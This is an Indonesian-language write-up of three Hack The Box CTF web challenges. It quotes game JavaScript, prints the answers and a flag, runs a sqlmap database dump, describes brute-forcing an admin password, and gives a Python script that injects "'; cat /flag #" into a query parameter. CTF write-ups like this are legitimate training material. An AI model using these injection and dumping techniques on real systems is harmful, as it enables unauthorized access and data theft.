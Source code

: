 
---
# Flag Command

### Deskripsi 
Mulailah "Quest Pelarian Dimensi" di mana Anda terbangun di labirin hutan misterius yang bukan berasal dari dunia ini. Jelajahi tupai bernyanyi, bidadari nakal, dan penyihir pemarah di labirin aneh yang mungkin membawa kejutan dari dunia lain. Akankah Anda menaklukkan labirin ajaib atau menemukan diri Anda tersesat dalam dimensi tantangan magis yang berbeda? Perjalanan terungkap dalam pelarian mistis ini!

### Analisis
Pada tantangan ini diarahkan untuk menjawab dengan benar beberapa pertanyaan dari logic code javascript yang sudah di sediakan

```JS
async function CheckMessage() {
    fetchingResponse = true;
    currentCommand = commandHistory[commandHistory.length - 1];

    if (availableOptions[currentStep].includes(currentCommand) || availableOptions['secret'].includes(currentCommand)) {
        await fetch('/api/monitor', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json'
            },
            body: JSON.stringify({ 'command': currentCommand })
        })
            .then((res) => res.json())
            .then(async (data) => {
                console.log(data)
                await displayLineInTerminal({ text: data.message });

                if(data.message.includes('Game over')) {
                    playerLost();
                    fetchingResponse = false;
                    return;
                }

                if(data.message.includes('HTB{')) {
                    playerWon();
                    fetchingResponse = false;

                    return;
                }

                if (currentCommand == 'HEAD NORTH') {
                    currentStep = '2';
                }
                else if (currentCommand == 'FOLLOW A MYSTERIOUS PATH') {
                    currentStep = '3'
                }
                else if (currentCommand == 'SET UP CAMP') {
                    currentStep = '4'
                }

                let lineBreak = document.createElement("br");


                beforeDiv.parentNode.insertBefore(lineBreak, beforeDiv);
                displayLineInTerminal({ text: '<span class="command">You have 4 options!</span>' })
                displayLinesInTerminal({ lines: availableOptions[currentStep] })
                fetchingResponse = false;
            });


    }
    else {
        displayLineInTerminal({ text: "You do realise its not a park where you can just play around and move around pick from options how are hard it is for you????" });
        fetchingResponse = false;
    }
```

Ada 4 pilihan jawaban yang benar untuk mendapatkan flag 

![Alt Text](img/FlagComand1.png)



### Penyelesaian 


Jawaban dari pertanyaan di dalam Web yang benar ialah :
- HEAD NORTH
- FOLLOW A MYSTERIOUS PATH
- SET UP CAMP
- Blip-Blop, in a pickle with a hiccup! Shmiggity-shmack


![Alt Text](img/FlagComand2.png)








---
# KORP Terminal 

### Deskripsi 
Faksi Anda harus menyusup ke terminal KORP™ dan mendapatkan akses ke informasi istimewa Legiun serta mencari tahu lebih banyak tentang penyelenggara Fray. Layar login terminal dilindungi oleh enkripsi dan protokol keamanan canggih.

### Analisis
Web yang berisi login form memiliki kerentanan SQL Injection di parameter username.

### Penyelesaian 
Melakukan automasi SQL Injection dengan sqlmap 
`sqlmap -r inject --dbms mysql --level 4 --risk 3 --threads 10 --ignore-code 401 --batch -D korp_terminal --dump`

![Alt text](img/KorpTeminal_Sqlmap.png)

Terlihat pada database korp_terminal tersebut Terdapat username admin tapi password ter-encrypt menggunakan md5, dari pilihan melakukan cracking hash menggunakan jhontheriper saya melakukan 
Brute force password admin dengan turbo intruder dan mendapat di password123 untuk credentialnya.

![Alt Text](img/KorpTerminal_BruteForce.png)

```
flag HTB {t3rm1n4l_cr4ck1ng_sh3n4nig4n5}
```







---
# TimeKORP

### Deskripsi 
Apakah Anda siap mengungkap misteri dan mengungkap kebenaran yang tersembunyi dalam domain digital KROP? Bergabunglah dengan tantangan ini dan buktikan kehebatan Anda di dunia keamanan siber. Ingat, waktu adalah uang, namun dalam kasus ini, imbalannya mungkin jauh lebih besar dari yang Anda bayangkan.

### Analisis


Pada saat melakukan code review  dari source code yang diberikan. pada file config, flag di copy ke directory / yang mana mungkin ada clue untuk melakukan attack vector **Command Injection**

### Penyelesaian

Code python untuk mengirimkan request command injection pada paramater format

```py
#! /usr/bin/env python

import requests

url = "http://83.136.253.226:50636/"


r = requests.get(
    url,
    params={
        "format": "'; cat /flag #"
    },
)

print(r.text)
```

![Alt text](img/TimeKorp_flag.png)